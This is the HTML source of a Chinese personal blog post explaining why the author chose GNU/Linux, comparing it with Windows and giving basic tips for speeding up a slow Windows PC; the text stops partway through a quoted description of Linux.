

<!DOCTYPE html>
<html lang="en">

<!-- Head tag (contains Google-Analytics、Baidu-Tongji)-->
<head>
  <!-- Google Analytics -->
  

  <!-- Baidu Tongji -->
  

  <!-- Baidu Push -->
  

  <meta charset="utf-8" />
  <meta http-equiv="X-UA-Compatible" content="IE=edge" />

  <meta name="google-site-verification" content="lxDfCplOZbIzjhG34NuQBgu2gdyRlAtMB4utP5AgEBc" />
  <meta name="baidu-site-verification" content="PpzM9WxOJU" />

  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <meta name="description" content="This is CIVICCCCC&#39;s blog..." />
  <meta name="keyword" content="rmshadows,civiccccc,blog,Blog" />
  <link rel="shortcut icon" href="/img/avatar/roguerabbit.jpg" />

  <!-- Place this tag in your head or just before your close body tag. -->
  <script async="async" defer="defer" src="https://buttons.github.io/buttons.js"></script>
  <!-- Bootstrap Core CSS -->
  <link rel="stylesheet" href="/css/bootstrap.min.css" />

  <!-- Custom CSS -->
  <link rel="stylesheet" href="/css/beantech.min.css" />

  <!-- Pygments Highlight CSS -->
  
<link rel="stylesheet" href="../../css/highlight.css">
<link rel="stylesheet" href="../../css/widget.css">
<link rel="stylesheet" href="../../css/rocket.css">
<link rel="stylesheet" href="../../css/signature.css">
<link rel="stylesheet" href="../../css/catalog.css">
<link rel="stylesheet" href="../../css/livemylife.css">


  
  <!-- wave start -->
  <link rel="stylesheet" href="/css/wave.css" />
  <!-- wave end -->
  

  
  <!-- top start (article top hot config) -->
  <link rel="stylesheet" href="/css/top.css" />
  <!-- top end -->
  

  
  <!-- ThemeColor start -->
  <link rel="stylesheet" href="/css/scroll.css" />
  <!-- ThemeColor end -->
  

  
  <!-- viewer start (Picture preview) -->
  <link rel="stylesheet" href="/css/viewer.min.css" />
  <!-- viewer end -->
  

  
  <!-- Search start -->
  <link rel="stylesheet" href="/css/search.css" />
  <!-- Search end -->
  

  
  <!-- ThemeColor start -->
  <link rel="stylesheet" href="/css/themecolor.css" />
  <!-- ThemeColor end -->
  

  

  

  <!-- Custom Fonts -->
  <!-- <link href="https://maxcdn.bootstrapcdn.com/font-awesome/4.3.0/css/font-awesome.min.css" rel="stylesheet" type="text/css"> -->
  <!-- Hux change font-awesome CDN to qiniu -->
  <link rel="stylesheet" href="https://cdn.staticfile.org/font-awesome/4.5.0/css/font-awesome.min.css" type="text/css">
  <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">

  <!-- Hux Delete, sad but pending in China <link href='http://fonts.googleapis.com/css?family=Lora:400,700,400italic,700italic' rel='stylesheet' type='text/css'> <link
    href='http://fonts.googleapis.com/css?family=Open+Sans:300italic,400italic,600italic,700italic,800italic,400,300,600,700,800' rel='stylesheet' type='text/ css'> -->

  <!-- HTML5 Shim and Respond.js IE8 support of HTML5 elements and media queries -->
  <!-- WARNING: Respond.js doesn't work if you view the page via file:// -->
  <!--[if lt IE 9]> <script src="https://oss.maxcdn.com/libs/html5shiv/3.7.0/html5shiv.js"></script> <script src="https://oss.maxcdn.com/libs/respond.js/1.4.2/respond.min.js"></script> <![endif]-->

  <!-- ga & ba script hoook -->
  <link rel="canonical" href="https://rmshadows.gitee.io/2020/Why-Linux/">
  <title>
    
    Why Linux - RYAN | be yourself
    
  </title>
<meta name="generator" content="Hexo 4.2.1"><link rel="alternate" href="atom.xml" title="Hello ~(○｀ 3′○)~ I'm Ryan Yim" type="application/atom+xml">
</head>


<!-- hack iOS CSS :active style -->

<body ontouchstart="" class="body--home">
    <!-- ThemeColor -->
    
    <!-- ThemeColor -->
<!-- <div class="toggle" onclick="document.body.classList.toggle('body--dark')">Switch Color</div> -->

<div class="toggle" onclick="document.body.classList.toggle('body--dark')">
  <i class="mdui-icon material-icons bright-mode"></i>
  <i class="mdui-icon material-icons dark-mode"></i>
</div>

    

    <!-- Navigation (contains search)-->
    <!-- Navigation -->
<nav class="navbar navbar-default navbar-custom navbar-fixed-top">
  <div class="container-fluid">
    <!-- Brand and toggle get grouped for better mobile display -->
    <div class="navbar-header page-scroll">
      <button type="button" class="navbar-toggle">
        <span class="sr-only">Toggle navigation</span>
        <span class="icon-bar"></span>
        <span class="icon-bar"></span>
        <span class="icon-bar"></span>
      </button>
      <a class="navbar-brand" href="/">Hello ~(○｀ 3′○)~ I&#39;m Ryan Yim</a>
    </div>

    <!-- Collect the nav links, forms, and other content for toggling -->
    <!-- Known Issue, found by Hux:
            <nav>'s height woule be hold on by its content.
            so, when navbar scale out, the <nav> will cover tags.
            also mask any touch event of tags, unfortunately.
        -->
    <div id="huxblog_navbar">
      <div class="navbar-collapse">
        <ul class="nav navbar-nav navbar-right">
          <li>
            <a href="/">Home</a>
          </li>

          

          
          

          
          <li>
            <a href="/about/">About</a>
          </li>
          
          

          
          <li>
            <a href="/archive/">Archives</a>
          </li>
          
          

          
          <li>
            <a href="/categories/">Categories</a>
          </li>
          
          

          
          <li>
            <a href="/tags/">Tags</a>
          </li>
          
          

          
          <li><a class="popup-trigger" title="Search"><span class="search-icon"></span>Search</a></li>
          
        </ul>
      </div>
    </div>
    <!-- /.navbar-collapse -->
  </div>
  <!-- /.container -->
</nav>
<!-- progress -->
<div id="progress">
  <div class="line" style="width: 0%;"></div>
</div>


<script>
  // Drop Bootstarp low-performance Navbar
  // Use customize navbar with high-quality material design animation
  // in high-perf jank-free CSS3 implementation
  var $body = document.body;
  var $toggle = document.querySelector('.navbar-toggle');
  var $navbar = document.querySelector('#huxblog_navbar');
  var $collapse = document.querySelector('.navbar-collapse');

  $toggle.addEventListener('click', handleMagic)

  function handleMagic(e) {
    if ($navbar.className.indexOf('in') > 0) {
      // CLOSE
      $navbar.className = " ";
      // wait until animation end.
      setTimeout(function() {
        // prevent frequently toggle
        if ($navbar.className.indexOf('in') < 0) {
          $collapse.style.height = "0px"
        }
      }, 400)
    } else {
      // OPEN
      $collapse.style.height = "auto"
      $navbar.className += " in";
    }
  }
</script>


    <!-- Post Header (contains intro-header、signature、wordcount、busuanzi、waveoverlay) -->
    <!-- Modified by Yu-Hsuan Yen -->
<!-- Post Header -->

  <style type="text/css">
    header.intro-header {
       /*post*/
        background-image: url('https://rmshadows.gitee.io//img/header_img/designated/linux.png');
      
    }

    
      #signature {/*signature*/
        background-image: url('/img/signature/rmshadows.png');
      }
    
  </style>


<header class="intro-header">
  <!-- Signature -->
  <div id="signature">
    <div class="container">
      <div class="row">
        <div class="col-lg-8 col-lg-offset-2 col-md-10 col-md-offset-1">
          
          <div class="post-heading">
            <div class="tags">
              
              <a class="tag" href="/tags/#Daily" title="Daily">Daily</a>
              
              <a class="tag" href="/tags/#GNU/Linux" title="GNU/Linux">GNU/Linux</a>
              
              <a class="tag" href="/tags/#Debian" title="Debian">Debian</a>
              
            </div>
            <h1>Why Linux</h1>
            <h2 class="subheading">【如果说Windows是一道菜的话，那Linux就是菜谱，你可以根据自己的口味制作你喜欢的菜】关于为什么我选择GNU/Linux作为主力系统，以及我在Linux作为日常办公桌面环境方面的一些使用经验。包括新装Debian Linux该做的事（快速打造我的日用工作台）。最后，还有我使用GNU/Linux以来的一些笔记，仅供参考。</h2>
            <span class="meta">
              Posted by Ryan Yim on
              2020-09-21
            </span>


            
            <!-- WordCount start -->
            <div class="blank_box"></div>
            <span class="meta">
              Estimated Reading Time <span class="post-count">420</span> Minutes
            </span>
            <div class="blank_box"></div>
            <span class="meta">
              Words <span class="post-count">91k</span> In Total
            </span>
            <div class="blank_box"></div>
            <!-- WordCount end -->
            
            
            <!-- 不蒜子统计 start -->
            <span class="meta" id="busuanzi_container_page_pv">
              Viewed <span id="busuanzi_value_page_pv"><i class="fa fa-spinner fa-spin"></i></span> Times
            </span>
            <!-- 不蒜子统计 end -->
            


          </div>
          
        </div>
      </div>
    </div>
  </div>

  
  <!-- waveoverlay start -->
  <div class="preview-overlay">
    <svg class="preview-waves" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewBox="0 24 150 28" preserveAspectRatio="none" shape-rendering="auto">
      <defs>
        <path id="gentle-wave" d="M-160 44c30 0 58-18 88-18s 58 18 88 18 58-18 88-18 58 18 88 18 v44h-352z"></path>
      </defs>
      <g class="preview-parallax">
        <use xlink:href="#gentle-wave" x="48" y="0" fill=var(--gentle-wave1)></use>
        <use xlink:href="#gentle-wave" x="48" y="3" fill=var(--gentle-wave2)></use>
        <use xlink:href="#gentle-wave" x="48" y="5" fill=var(--gentle-wave3)></use>
        <use xlink:href="#gentle-wave" x="48" y="7" fill=var(--gentle-wave)></use>
      </g>
    </svg>
  </div>
  <!-- waveoverlay end -->
  

</header>


    <!-- Main Content (Post contains
    Pager、
    tip、
    socialshare、
    gitalk、gitment、disqus-comment、
    Catalog、
    Sidebar、
    Featured-Tags、
    Friends Blog、
    anchorjs、
    ) -->
    <!-- Modify by Yu-Hsuan Yen -->
<!-- Post Content -->
<article>
  <div class="container">
    <div class="row">
      <!-- Post Container -->
      <div class="col-lg-8 col-lg-offset-1 col-md-10 col-md-offset-1 post-container">

        <blockquote>
<p>Windows系统使用建议相关的可以查看<a href="https://xjx0106.gitee.io/mydailyblog/" target="_blank" rel="noopener">许景欣</a> 的 <a href="https://xjx0106.gitee.io/MyDailyBlog/blogs/技术文章/20092101.html" target="_blank" rel="noopener">博文</a> </p>
<p>本文是应许景欣邀约而作，主题是关于我为什么选择Linux作为主力系统和我在Linux日常使用的部分经验。由于这里我不是把Linux当作服务器使用，而是作为日常办公的桌面环境，加上本身不是计算机专业、不是Linux运维人员。故本文仅供参考，如果您有更好的建议请在下方留言。</p>
<p>Check <a href="https://xjx0106.gitee.io/MyDailyBlog/" target="_blank" rel="noopener">Xu Jingxin’s Blog</a> for <a href="https://xjx0106.gitee.io/MyDailyBlog/blogs/技术文章/20092101.html" target="_blank" rel="noopener"><em>Computer usage specifications and recommendations</em></a></p>
<p>This article was written at the invitation of Xu Jingxin. The topic is about why I chose Linux as the main system and my experience in daily use of Linux. Here I am not using Linux as a server, but as a desktop environment for routine office, and I am not a computer professional, not a Linux operation and maintenance personnel. Therefore, this article is for reference only, if you have better suggestions, please leave comments below.</p>
</blockquote>
<h1 id="快速导航"><a href="#快速导航" class="headerlink" title="快速导航"></a>快速导航</h1><ul>
<li><a href="#为什么我选择Linux-Why-GNU-Linux">Windows &amp; Linux</a></li>
<li><a href="#Windows卡顿吗">Windows卡顿？</a></li>
<li><p><a href="#使用经验-Something-to-share-with-you">Linux笔记</a></p>
<ul>
<li><a href="./../../2022/Linux-Applications/">软件使用</a> —— 单独页面</li>
<li><a href="#快速打造我的工作台-Todo-when-setting-up-a-new-Debian-GNU-Linux">快速跳转到Linux部署脚本</a></li>
<li><a href="#Linux知识">Linux知识</a></li>
<li><p><a href="#Linux办公相关">Linux办公相关——打印机等相关话题</a></p>
</li>
<li><p><a href="#终端配置、使用">终端配置 和 使用</a></p>
</li>
<li><a href="#系统管理">系统管理——启动引导顺序、配置SSH、开启热点等</a></li>
<li><a href="#系统个性化——Customize">系统个性化——Customize</a></li>
<li><a href="#常见问题-FAQ-amp-HOWS">常见问题 FAQ &amp; HOWS</a></li>
<li><a href="#Manjaro-Notes">Manjaro</a></li>
<li><a href="#Debian服务器-从命令行搭建X窗口">Debian 服务器安装Fluxbox</a></li>
<li><a href="./../../2022/Windows-Notes/">Windows笔记</a> —— 单独页面</li>
</ul>
</li>
<li>编程相关 —— 单独页面<ul>
<li><a href="./../../2022/Java-Notes/">Java笔记</a></li>
<li><a href="./../../2022/Shell-Notes/">Shell笔记</a></li>
<li><a href="./../../2022/C-Notes/">C &amp; C++ 笔记</a></li>
<li><a href="./../../2022/Python-Notes/">Python笔记</a></li>
<li><a href="./../../2022/Web-Notes/">HTML笔记</a></li>
</ul>
</li>
</ul>
<h1 id="为什么我选择Linux-Why-GNU-Linux"><a href="#为什么我选择Linux-Why-GNU-Linux" class="headerlink" title="为什么我选择Linux - Why GNU/Linux"></a>为什么我选择Linux - Why GNU/Linux</h1><blockquote>
<p>我的笔记本电脑配置：(目前已经换台式机了 Intel i5-12400 + 16GRAM + 1T SSD + AMD RX6600 GPU)</p>
<p>CPU：i5-7200U</p>
<p>RAM：12G（4+8）</p>
<p>HardDisk：256G SSD+512G SSD</p>
<p>GPU：Intel Corporation HD Graphics 620 + AMD Radeon M330</p>
</blockquote>
<hr>
<blockquote>
<p>My Laptop Specifications:</p>
<p>CPU:Intel Core i5-7200U</p>
<p>Memory:12G RAM</p>
<p>Storage:256G SSD[Windows] + 512G SSD[Linux]</p>
<p>GPU:Intel Corporation HD Graphics 620 + AMD Radeon M330</p>
</blockquote>
<p>Windows系统当然不错，用过Windows98、Windows Xp、Windows 7、Windows 8、Windows 8.1、Windows 10。最好用的当然是<strong>Windows 10</strong>了（不接受反驳）。</p>
<p>Win 10好用归好用，占用资源有点多，我装了360安全卫士和COMODO防火墙，待机状态下就有点发热。</p>
<p>关于360：你若问我为什么保留360安全卫士，你可听过一句话叫做“流氓治流氓”？360固然有点流氓，但是用它来治理一些流氓软件（比如Flash、迅雷、WPS，还有它自己的360手机助手我也用360自己杀自己杀掉了）可以说非常方便了。360有一个非常好的地方，就是一键解决，这非常实用。所以我也会推荐小白使用360，因为对电脑一窍不通的小白，360一键解决方法可以解决小白<strong>百分之五十的问题</strong>。</p>
<p>如果说要我<strong>给小白关于使用360安全卫士的建议</strong>的话，我想说：用360可以，但不要一直按360的思路来，特别是它推荐你装一些没有必要的软件时（比如鲁大师、360手机助手）。</p>
<p>那为什么装了360安全卫士我还装了COMODO呢？为了HIPS和防火墙哈哈哈哈，COMODO比360敏感很多，疯狂隔离你的文件就是了。下面我简单总结下Windows的优缺点吧：</p>
<p></p>
<h2 id="WIndows优点-Advantages"><a href="#WIndows优点-Advantages" class="headerlink" title="WIndows优点 - Advantages"></a>WIndows优点 - Advantages</h2><ul>
<li><strong>驱动好</strong>。大多硬件在Windows都有良好的驱动支持。</li>
<li><strong>小白用户友好</strong>。Windows的界面对小白友好，你看过哪个小白第一次接触Windows系统不会用的？</li>
<li><strong>软件多，办公支持好</strong>。各种奇奇怪怪的软件WIndows可以说非常多了，你看看Adobe全家桶？看看微信、QQ、钉钉？</li>
<li><strong>破解软件多</strong>。你说这是优点吧，免费对吧，白嫖。你说缺点吧，破解版很容易导致电脑中毒、不稳定等等。所以我个人是不推荐使用盗版软件。</li>
<li><strong>Office太好用</strong>。Office真的比WPS好用……</li>
<li><strong>游戏支持好、娱乐多</strong>。好多主流游戏Linux没有呢。</li>
</ul>
<h2 id="Windows缺点-Disadvantages"><a href="#Windows缺点-Disadvantages" class="headerlink" title="Windows缺点 -  Disadvantages"></a>Windows缺点 -  Disadvantages</h2><ul>
<li><strong>占用资源多</strong>。后台奇奇怪怪的东西太多，主要是流氓软件。你看看QQ、迅雷看看等等。</li>
<li><strong>权限管理一般</strong>。一般，自己体会。</li>
<li><strong>被巨硬(微软)后入的感觉</strong>。明明是自己的电脑，我想让Windows把自己删了 ，它不干。</li>
<li><strong>万恶的资源浏览器</strong>。用久了，虽然不卡，但是奇奇怪怪问题很多，特别是多任务，Explorer有时会崩溃，这个有时就很烦啊</li>
<li><strong>万恶的文件占用、磁盘占用</strong>。多少次，遇到“文件已被打开，请先关闭再删除”还有“磁盘正在使用，无法弹出”。每次都得接触占用，烦不烦？虽然不是经常，但偶尔就很烦，我懒。</li>
<li><strong>万恶的广告</strong>。说白就是流氓软件。比如Flash只有在大陆的Windows系统有广告，呵呵。我在Linux就没遇到广告……</li>
<li><strong>万恶的蓝屏</strong>。其实不能这么说，蓝屏我四年内掐指一算只遇到过3次的样子，还是我个人原因导致的蓝屏（我把必要驱动删了，蓝屏代码提示我说找不到加载啥啥啥）。但现在咱们说的是，应用卡死，任务管理器都出不来，怎么办？？？？大多人都会强制关机重启吧……而Linux这边，图形界面卡死我还有tty终端可以用撒，结束卡死的程序，重启图形界面就好了。</li>
<li><strong>不稳定</strong>。Windows这边，明明设置好了的，过了一年多，可能就莫名其妙被改了，可能是被什么软件改了，也可能是系统更新改了。反正我的Windows一直保持更新，一直是最新版本。更新了这么多年，崩掉的软件有（小米WIFI、360随身WIFI、Anaconda）</li>
<li><strong>编译不友好</strong>。Windows这边搭建开发环境，有的时候真的很恼火，不像Linux一路apt就完事了。</li>
</ul>
<h2 id="Windows卡顿吗"><a href="#Windows卡顿吗" class="headerlink" title="Windows卡顿吗"></a>Windows卡顿吗</h2><blockquote>
<p>从非专业的角度提供一些简单粗暴的解决办法，没耐心的直接看实操</p>
</blockquote>
<p>先讲个知乎上关于电脑养蛊的鬼故事：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">给妹子重装了系统，她装了<span class="number">360</span>浏览器，很快地，我发现桌面上多了<span class="number">360</span>安全卫士、<span class="number">360</span>杀毒，<span class="number">360</span>手机卫士、<span class="number">360</span>安全导航。</span><br><span class="line">然后又重装了系统，这次明令禁止安<span class="number">360</span>浏览器，于是她装了猎豹浏览器。很快地,我发现桌面上多了金山卫士，悟空杀毒，金山手机管家。。。。。</span><br><span class="line">然后又重装了系统，这次明令禁止安装<span class="number">360</span>、猎豹，后来她装了QQ浏览器，我没发现多了什么东西，原来什么QQ管家，QQ音乐，QQ输入法早就被安装好了。。。</span><br><span class="line"></span><br><span class="line">后来又重装了系统，这次我让她只能用Chrome,世界清静了。</span><br><span class="line"></span><br><span class="line">妹子从此再也没找过我，我为此感到很自豪。</span><br></pre></td></tr></table></figure>
<p><strong>简单分析</strong></p>
<p>至于电脑卡顿这个问题……因为这几年一直用的Linux系统 (除微软的Windows和苹果的MacOS以外的一种系统而已)，所以Windows反倒有点生疏了。不过在这里我还是提供些简单粗暴的解决思路吧：</p>
<p>一般来讲，卡顿有两种原因：</p>
<ol>
<li>硬件问题：配置较低，性能不足。比如买了一台廉价的低配电脑，虽然电脑是新的，但是配置低。这样的电脑用来运行大型应用就会有小牛拉大车的感觉。</li>
<li>软件问题：维护力度不足，流氓软件多。比如新电脑很流畅，用着用着越来越卡。</li>
</ol>
<p>解决思路：</p>
<ol>
<li>硬件问题：<ul>
<li>换硬件，买更高配置的电脑撒。</li>
<li>使用硬件需求更低的软件，降低系统自身的资源占用。比如低配电脑带不带Windows 10，那就装个Windows 7呗，或者Linux系统也行。</li>
</ul>
</li>
<li>软件问题(仅列举几个简单粗暴的)：<ul>
<li>卸载不需要的软件，禁用不需要的服务。</li>
<li>卸载流氓软件。</li>
<li>减少应用多开。</li>
</ul>
</li>
</ol>
<p><strong>实际操作</strong>(Windows 7为例)</p>
<blockquote>
<p>相信在关闭无用的服务和软件后…你们的电脑应该会流畅一……一……一点……点点点点点吧…吧……啊……</p>
</blockquote>
<ul>
<li><p>禁用没用或者少用的软件、服务(听起来像废话)</p>
<ol>
<li><p><code>Win+r</code>快捷键打开“运行”，输入<code>msconfig</code>后回车出现<code>系统配置</code>对话框。</p>
<p></p>
</li>
<li><p>点击<code>服务</code>，<strong>勾选</strong> <code>隐藏所有Microsoft服务</code>  (记得勾选，除非你知道那些Microsoft服务干嘛用的，要不万一禁用了什么不得了的东西开不了机就肥肠有趣了)，然后在列表中禁用掉没用的服务。</p>
<blockquote>
<p>怎么知道某个服务是干什么的呢？服务很多都是英文名，看不懂可以百度翻译撒。或者百度一下也行，不懂的多多百度(能材界有一句话嘛，叫做“<strong>做实验前多查文献，能保命</strong>”)。</p>
<p>错误禁用服务会怎样？答：上文提到，你已经勾选了隐藏Microsoft服务，剩下可以看到的大多都是软件的服务。某软件服务被禁用可能导致你在使用该软件时出现一些奇奇怪怪的问题。但不用怕，解决办法很简单：重新在<code>msconfig</code>勾选、启用该服务，然后重启就行了。<strong>或者</strong>，每次需要用到该软件时，手动到<code>services.msc</code>中临时启动该服务即可。 </p>
</blockquote>
<p></p>
<p></p>
</li>
<li><p>同<code>msconfig</code>的对话框，点击<code>启动</code> (Windows10则是在任务管理器中)，禁用掉不需要<strong>开机自启</strong>的软件。注意，这里是针对开机自启的软件，禁用某软件开机自启后，软件开机时不会启动(但不排除通过其他途径自启，比如有些流氓软件嘛你懂的)，需要用的时候再打开就好咯。</p>
<p></p>
</li>
</ol>
</li>
<li><p>卸载无用、多余的软件。</p>
<ol>
<li><p><strong>只留一个杀毒软件</strong>。360安全卫士、360杀毒、 金山、腾讯管家，只留一个就好了。因为杀毒软件是很占用系统资源的，如果你在使用计算机方面有良好的习惯(<strong>不随意安装软件、几乎不用流氓软件、不随意接收可疑文件</strong>、防火墙流量过滤、及时升级系统、安装漏洞补丁等)，依靠Windows自带的Windows Defender对抗病毒足矣(Windows10哈，Windows7就算了，<a href="https://support.microsoft.com/en-us/windows/windows-7-support-ended-on-january-14-2020-b75d4580-2cc7-895a-2c9c-1466d9a53962" target="_blank" rel="noopener">EOL</a>警告)。</p>
<blockquote>
<p>关于用什么防护软件：个人认为，如果您对电脑啥都不懂，直接上<strong>360安全卫士</strong>就够解决新手80%的电脑问题了。如果你有点懂电脑，建议使用Windows自带的Windows Defender或者火绒、COMODO(科摩多)。</p>
<p>关于360安全卫士流氓的说法：是流氓没错，可它简单粗暴呀。很多人说装了360更卡了，请看下文。</p>
</blockquote>
</li>
<li><p><strong>配置好应用程序</strong>。就拿360安全卫士开刀：360安全卫士是简单粗暴地解决了电脑小白80%的问题。但是他也很流氓，毕竟商业软件要恰饭打广告撒。所以如果你放任它自由，很快它也会吧360全家桶往你的电脑使劲塞，自然电脑也会跟着卡到爆炸。所以安装360安全卫士后，如果它提示你安装什么手机助手、桌面助手、壁纸切换什么的花里胡哨的没用的东西，一律禁止、不安装就是。还有，360安全卫士的设置记得过一遍，取消勾选类似“展示我的荣誉勋章”、“开机助手”、“360资讯”等<strong>毫无意义</strong>的功能。对了，360手机助手千万别去动…因为装了就卸载不掉了(可以卸载，用<strong>360强制卸载</strong>去卸载<strong>360手机助手</strong>就行了)。</p>
<blockquote>
<p>关于去哪里下载软件：最好去官网！！这很重要，比如下载网易云音乐当然是去网易云音乐官网 -&gt; <a href="https://music.163.com/#/download" target="_blank" rel="noopener">https://music.163.com/#/download</a>  下载微信当然是去腾讯官网下载：<a href="https://weixin.qq.com/" target="_blank" rel="noopener">https://weixin.qq.com/</a> 。</p>
<p>不过…如果你实在不知道去哪里，那就去360软件管家这种地方下载吧…虽然上面也有流氓软件，但好歹有360公司…emmmm对吧，<strong>相对三无网站</strong>来说带病毒的可能性更小。</p>
</blockquote>
<p></p>
<p></p>
<p></p>
</li>
<li><p><strong>精简软件列表</strong>。我发现有些人的电脑上乱七八糟的浏览器(360浏览器、极速浏览器、猎豹浏览器、2345浏览器)、输入法(QQ输入法、2345输入法、王牌输入法)一大堆。没必要真的，浏览器火狐、谷歌不香嘛(工作单位我推荐谷歌浏览器Chrome，因为大多数网页都是基于Chrome开发的。记得去<strong>官网下载</strong> ！当然，如果你觉得用着不顺手，国产浏览器也是可以，但<strong>一个就好</strong>，一个就好，记得<strong>设置过一遍</strong>，没用的功能都关了，比如360浏览器的<strong>资讯</strong>和<strong>锁屏壁纸</strong>！)。同理，输入法也是一个就好了。还有一些多功能软件，一个定俩的那种你懂的。</p>
<p><strong>安装软件记得去官网！</strong></p>
<h1 id="安装软件记得去官网！"><a href="#安装软件记得去官网！" class="headerlink" title="安装软件记得去官网！"></a><strong>安装软件记得去官网！</strong></h1><p><strong>安装软件记得去官网！</strong></p>
<p></p>
</li>
<li><p><strong>卸载流氓软件</strong>。流氓软件和盗版软件能不用就不用啦，除非你知道它没有问题，知根知底。一款软件的代替品有很多，虽然商业软件多数都比免费软件好用，但除专业用途，多少人又用得到专业软件特有的那些功能呢？就比如Adobe PS这款修图软件，我用的是GNU旗下开源免费的<a href="https://www.gimp.org/" target="_blank" rel="noopener">GIMP</a>代替它；Adobe Pr我同样使用开源免费的<a href="https://kdenlive.org/zh/" target="_blank" rel="noopener">Kdenlive</a>代替它(有种买不起贵的后驱性能车[指商业付费软件]玩漂移，我可以买五菱宏光[指免费软件]的感觉。这不比买水车[指盗版、流氓软件]被交警查了香？「又及：水车可以，体验一下快乐一下，偶尔使用还行，记得<strong>做好安全措施</strong>就是」)。大部分功能还是有的，体验的话自然是Adobe这类商业软件更好。</p>
<blockquote>
<p>不知道去哪里找代替品？知乎、<a href="https://alternativeto.net/" target="_blank" rel="noopener">Alternative to</a>了解一下？</p>
<p>关于弹窗太多：有个治标不治本的办法是使用360弹窗拦截…流氓打流氓。</p>
</blockquote>
</li>
</ol>
</li>
<li><p>关闭不用的软件。看看自己电脑右下角的系统托盘，是不是图标一大堆？有些还真的用不到，比如Windows 10可能有OneDrive、Skype、小娜等，不用的话可以打开、设置一下下次不再启动等。</p>
<p></p>
</li>
<li><p>桌面上东西不要太多，能分工作区就分工作区(比如这个文件夹专门存放临时文档，这个文件夹主题是xxx)，完成任务后记得及时清理工作区。至于快捷方式呢，除了真天天用的，其他可以不要，因为开始菜单不是有搜索功能吗？</p>
<p></p>
</li>
<li><p>养成系统备份的好习惯。有个东西叫做磁盘保护不知道你们听过没有，桌面右击<code>我的电脑</code>，点击<code>属性</code>，点击<code>系统保护</code>。</p>
<p></p>
</li>
</ul>
<p></p>
<h2 id="关于Linux-About"><a href="#关于Linux-About" class="headerlink" title="关于Linux - About"></a>关于Linux - About</h2><blockquote>
<p>如果说Windows是一道菜的话，那Linux就是菜谱。</p>
<p>你可以根据自己的口味制作你喜欢的菜。</p>
</blockquote>
<figure class="highlight pgsql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">From</span>: https://manjaro.org/linux/</span><br><span class="line">What <span class="keyword">is</span> Linux</span><br><span class="line">Linux <span class="keyword">is</span> the <span class="type">name</span> <span class="keyword">of</span> the kernel powering the GNU <span class="keyword">system</span>. GNU/Linux, <span class="keyword">also</span> <span class="keyword">called</span> Linux <span class="keyword">is</span> a free <span class="keyword">and</span> <span class="keyword">open</span> source operating <span class="keyword">system</span>, that can be freely used <span class="keyword">and</span> distributed.</span><br><span class="line"></span><br><span class="line">The kernel can be seen <span class="keyword">as</span> the bridge <span class="keyword">between</span> software <span class="keyword">and</span> hardware <span class="keyword">and</span> the central module <span class="keyword">of</span> the operating <span class="keyword">system</span>, it <span class="keyword">is</span> responsible <span class="keyword">for</span> process management <span class="keyword">for</span> application execution, memory management, allocation, <span class="keyword">and</span> <span class="keyword">input</span> output, device management through the use <span class="keyword">of</span> device drivers <span class="keyword">and</span> <span class="keyword">system</span> <span class="keyword">call</span> control.</span><br><span class="line"></span><br><span class="line">Originally developed <span class="keyword">in</span> <span class="number">1991</span> <span class="keyword">by</span> Finnish Programmer Linus Torvalds, Linux <span class="keyword">is</span> an exceptionally robust <span class="keyword">and</span> reliable kernel, which combined <span class="keyword">with</span> the GNU <span class="keyword">system</span> <span class="keyword">is</span> most commonly used <span class="keyword">for</span> Internet servers, mobile phones, tablets mostly known <span class="keyword">as</span> Android devices. Additionally, the use <span class="keyword">of</span> GNU/Linux <span class="keyword">as</span> an alternative operating <span class="keyword">system</span>, <span class="keyword">for</span> personal computers such <span class="keyword">as</span> desktops <span class="keyword">or</span> laptops, has <span class="keyword">also</span> been growing <span class="keyword">over</span> the years, <span class="keyword">with</span> several million users <span class="keyword">having</span> already discovered the benefits <span class="keyword">of</span> it.</span><br><span class="line"></span><br><span class="line">Benefits <span class="keyword">of</span> <span class="keyword">using</span> Linux</span><br><span class="line">It <span class="keyword">is</span> highly efficient, very fast <span class="keyword">and</span> <span class="keyword">any</span> hardware device works <span class="keyword">out</span> <span class="keyword">of</span> the <span class="type">box</span>, <span class="keyword">only</span> 